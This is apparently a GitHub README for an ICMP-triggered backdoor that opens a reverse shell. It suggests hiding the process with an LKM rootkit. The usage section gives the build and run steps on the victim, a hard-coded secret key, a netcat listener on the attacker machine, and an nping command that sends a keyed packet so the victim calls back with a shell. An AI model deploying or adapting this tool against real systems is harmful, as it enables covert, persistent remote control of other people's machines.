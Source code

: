 # ICMP Backdoor
A cool ICMP listener and reverse shell. Ideally, should be used in conjunction with a LKM rootkit like [Diamorphine](https://github.com/m0nad/Diamorphine) to hide the process. Hypothetically, this could be turned into shellcode and injected into processes with `ptrace`, but I wouldn't recommend it since this implementation isn't really minimal.

*for educational purposes!*

# Usage
On the host machine, compile and run:
```
$ make
$ ./backdoor
```
You can also ensure:
```
$ ./backdoor -v
Secret Key:		wA@2mC!dq
Service Name:	backdoor
Shell Path:		/bin/bash
```
On the attacker machine start a netcat listener:
```
$ nc -lnvp <port>
```
And send an ICMP packet to the victim:
```
$ nping --icmp -c 1 -dest-ip <victim-ip> --data-string 'wA@2mC!dq <attacker-ip> <port>'
```
